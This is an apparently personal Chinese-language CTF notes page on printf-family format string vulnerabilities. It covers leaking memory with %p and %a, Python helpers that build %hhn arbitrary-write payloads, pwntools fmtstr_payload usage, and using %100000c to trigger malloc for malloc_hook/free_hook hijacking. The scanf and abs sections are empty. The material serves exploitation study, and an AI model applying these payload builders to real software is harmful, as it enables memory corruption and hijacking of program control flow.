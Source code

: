 
# libc函数漏洞

# printf

著名的**格式化字符串漏洞**就不说啦~ `printf`家族的函数都存在这个漏洞

> printf,  fprintf,  dprintf,  sprintf,  snprintf, vprintf, vfprintf, vdprintf, vsprintf, vsnprintf 

## 常用格式

| 格式符 | 用途                           | 备注                                                         |
| ------ | ------------------------------ | ------------------------------------------------------------ |
| `%p`   | 以指针格式输出栈中变量的地址   | `$`用于指定位置参数，e.g.`%13$p`                             |
| `%s`   | 输出栈中指针指向的字符串       | 若指针不合法则输出`(nil)`                                    |
| `%a`   | 以double格式输出栈中变量       | 常见于`printf_chk`泄漏`libc`，详见[#1](#泄漏内存)            |
| `%c`   | 以char格式输出栈中变量         | 打印过多字符将调用`malloc`，详见[#2](#触发malloc)       |
| `%n`   | 将已输出的字符数保存到栈中指针 | 若指针不合法则报错<br />`%n`-4字节; `%hn`-2字节; `%hhn`-1字节 |

## 泄漏内存

`%p`用于泄漏内存就不多说了

用`%a`的时候要注意一下输出格式的问题，比如有如下输出：

```c
0x0.07fcf47895ap-1022
```

由于是小数的形式打印的，变量末尾的0会被自动省略掉，需要手动还原一下：

```c
0x07fcf4789500
```



## 任意写

### case1: buf足够大

如果buf足够大，可以考虑同时使用多个格式符，一次完成变量的修改。

下面是keer师傅的`%hhn`大法可以快速完成任意写，payload长度至少为`128`

```python
def fmt(data,addr,off):
    arg0=(data)&0xff
    arg1=(data&0xff00)>>8
    arg2=(data&0xff0000)>>16
    arg3=(data&0xff000000)>>24
    arg4=(data&0xff00000000)>>32
    arg5=(data&0xff0000000000)>>40
    print arg0,arg1,arg2,arg3
    # arg6=(data&0xf f000000000000)>>48
    # arg7=(data&0xf f00000000000000)>>56
    pay1='%'+str(arg0)+'c%'+str(off+10)+'$hhn'
    pay2='%'+str( (arg1-arg0+0x100)%0x100)+'c%'+str(off+11)+'$hhn'
    pay3='%'+str( (arg2-arg1+0x100)%0x100)+'c%'+str(off+12)+'$hhn'
    pay4='%'+str( (arg3-arg2+0x100)%0x100)+'c%'+str(off+13)+'$hhn'
    pay5='%'+str( (arg4-arg3+0x100)%0x100)+'c%'+str(off+14)+'$hhn'
    pay6='%'+str( (arg5-arg4+0x100)%0x100)+'c%'+str(off+15)+'$hhn'
    payload = pay1+pay2+pay3+pay4+pay5+pay6 # +'%100000c'
    payload = payload.ljust(8*10,'A')
    payload+= p64(addr)
    payload+= p64(addr+1)
    payload+= p64(addr+2)
    payload+= p64(addr+3)
    payload+= p64(addr+4)
    payload+= p64(addr+5)
    return payload
```

`%hhn`一次写1个字节，相当于是`byte/char`型，最大范围是`0xff`，所以`(arg1-arg0+0x100)%0x100`这样的溢出写法，可以在不排序的情况下准确覆盖变量。

由于每次只改1字节，使用`%hhn`快速完成任意写，不足之处就是payload太长。

此外pwntools的fmtstr模块与上述函数功能相同：

```python
context.arch='amd64'
fmt = fmtstr_payload(offset,{addr:data},write_size='byte')  # hhn
fmt = fmtstr_payload(offset,{addr:data},write_size='short') # hn
fmt = fmtstr_payload(offset,{addr:data},write_size='int')   # n
```

### case2: buf不够大

如果buf长度不够，可以考虑重复利用`printf`，多次攻击完成变量的修改。

下面是藕自己写的模板，payload长度最少是`32`字节：

```python
def alter_byte(addr,data):
    if data==0:
        payload = "%10$hhn"
    else:
        payload = "%%%dc%%10$hhn"%(data)
    payload = payload.ljust(24,'T')
    payload += p64(addr)
    sl(payload)
    return rc()

def alter_dw(addr,data):
    alter_byte(addr,data&0xff)
    alter_byte(addr+1,(data>>8)&0xff)
    alter_byte(addr+2,(data>>16)&0xff)
    alter_byte(addr+3,(data>>24)&0xff)

def alter_qw(addr,data):
    alter_dw(addr,data)
    alter_dw(addr+4,data>>32)

```

>其中10是offset，用的时候改一下

## 触发malloc

`%100000c`表示在输出字符时向左侧填充空格，最终输出长度为`100000`的字符串。当字符串长度过大的时候，`printf`内部将调用`malloc`申请空间作为缓冲器，输出结束后会`free`掉这片空间。

利用方式：

* 篡改`malloc_hook`/`free_hook`，使用`%100000c`触发`malloc`/`free`，劫持程序控制流
* 和堆相关利用结合，利用`printf`隐试调用`malloc`

> 此外，从原理上看`%100000s`,`%10000d`等类似格式也可达到同样效果。

## 一次完成泄漏&修改
### 格式符`*`
* `%<N>d`这个很常用，打印长度为N的字符串，和`%<N>c`差不多

* `%*25$d`从栈中取变量作为`N`

  > 比如`25$`处的值是`0x100`，那么这个格式化字符串就相当于`%256d`

?> 那么可以理解为`*`相当于c语言取值符号...嘛？

刨根问底一下，查看`man`文档，找到`*`的用方法：

![](http://image.taqini.space/img/20200405185627.png)

根据文档写个栗子：

```c
int main(){
    int width=10;
    int num=2333;
    puts("\ncase1:");
    printf("%*d", width, num);    
    puts("\ncase2:");
    printf("%2$*1$d", width, num);
}
```

运行得到如下输出：

```
case1:
      2333
case2:
      2333
```

### House of Husk

[todo](https://ptr-yudai.hatenablog.com/entry/2020/04/02/111507)...

### 小结

* `*`如果单独使用，则**按顺序**取参数列表中的参数
* `*`如果配合`$`使用，则取参数列表中**相应位置**的参数，如`*1$`
* 取出的参数将格式化为**十进制数**，用作限制**字符串宽度**

### 用途

* 缩短格式化字符串长度

## 练习题

* [0CTF-EasiestPrintf](https://poning.me/2017/03/23/EasiestPrintf/)
* [ACTF-fmt64](http://taqini.space/2020/02/13/ACTF2020-writeup/#fmt64)
* [eonew-easy_printf](http://pwn.eonew.cn/) (根据Ex师傅平台的要求就不公开wp了) 
* [ACTF-chk_rop](https://github.com/TaQini/ctf/tree/master/ACTF2020/pwn/unsolved/chk_rop) (printf_chk)
* [MidnightSun2020-pwn4](http://taqini.space/2020/04/05/MidnightsunCTF-2020-pwn-pwn4/)(一次完成泄漏&修改)

> 更新日期：2020年 04月 05日 星期日 19:35:52 CST



# scanf



# abs


